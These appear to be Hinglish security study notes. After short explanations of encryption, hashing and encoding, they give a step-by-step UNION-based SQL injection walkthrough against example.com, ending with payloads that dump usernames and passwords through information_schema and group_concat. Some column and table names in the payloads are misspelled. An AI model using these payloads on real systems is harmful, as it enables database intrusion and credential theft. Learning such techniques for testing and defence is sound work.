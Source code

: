 # Encryption  

***ye symmetric or asymmetric ka concept hain jiske under symmetric Encryption ke under single key ka use kiya jata hai kisi bhi text ko encrypt or decrypt krne ke liye --- or asymmetric Encryption ke under public key or private key ka consept ata hai jiske under public key se encrypt or usi publie key ki private key se us text ko decrypt kiya jaa sakta hai***


# Hashing

***hashing ke under SH256 , MD5 ,SHA-1, Bcrypt or bhi bhut sare hashing ate hai jo kisi bhi text ko ya file ka ek hash create kr dete hai even agar us file ke under ek byte ka bhi change ho to hash value total change ho jati hai https ssl certificate***


# Encoding

***Encoding reversible hota hai, matlab original data ko wapis recover kiya ja sakta hai.  like Url encoding , Base64 encoding , Html encoding***


# SQL INJECTION

***Step 1  kisi bhi application ke coloums ko find krna <br/>
<b> https://example.com/?id=1' ORDER BY 1-- </b> <br/>
order by ko increse krte jao jis point per error aya ya application diffrent response kre utne coloum hai example 6 coloum hai***<br/>

***Step 2 <br/>
https://example.com/?id=1' UNION SELECT ALL 1,2,3,4,5,6--<br/>
perticular table ke coloums ke bare main pata krna ki konse coloum se hum apni query ko db main insert krwa rahe hai***

***Step 3 <br/>
https://example.com/?id=1' UNION SELECT ALL 1,@@version,3,4,5,6--<br/>
vulnerble coloum milne ke baad waha se hum db ki informations version jaise data ko retrive kr sakte hai***

**NOTES SQL DB ke under information_schema krke ek table create hota hai jiske under sari informations hoti hai like table coloum names kya hai or kisi perticular coloum ka datatype kya hai**

***Step 4 retrive all tables name with the help of information_schema.tables function <br/>
https://example.com/?id=1' UNION SELECT ALL 1,group_concat(table_name),3,4,5 from information_schema.tables where table_schema=database()--
<br/>
Yha per humne group_concat kiya hai jiska matlb hota hai ki Is function ke through aap multiple rows ke values ko ek hi column mein combine kar sakte hain aur unhe comma ya koi specific delimiter ke sath separate kar sakte hain. Isse aapko data ko organized aur readable format mein dekhne mein madad milti hai. to data kuch ese show karega jeetu,jassi,mayur jabki ye data alg alg coloum main tha but ek coloum ke under aa gaya ab information_schema.tables use kiya jsike under sare tables and coloum ki details unka datatype sabki information hoti hai to hum vo sari info information_schema se nikal rahe hai or last main jo database hoga vo vo kuch bhi ho to humne database() ye kr diya***


***Step 5 retrive all coloums name with the help of information_schema.coloums function <br/>
https://example.com/?id=1' UNION SELECT ALL 1,group_concat(colums_name),3,4,5 from information_schema.coloums where table_schema=database() and table_name = 'table-name-here'--
<br/>
yaha per jo information_schema function se jo tables name mili thi us table ka naam table-name-here per dalna hai taki hum particular tables ke coloums ki information retrive kr sake***


***Step 6 <br/>
https://example.com/?id=1' UNION SELECT ALL 1,group_concat(password,0x20,username),3,4,5 FROM table-name-here--
<br/>
upper humko information_schema se coloum name and tables mil gayi ab jo coloum ke under senstive info ho usko hum retrive krenge like username, password . humne yaha per bhi group_concat use kiya hai taki sara result ek coloum main show ho or 0x20 ka use isliye kiya taki data jab show ho to clear dikhe ye ek space ka kaam krega***




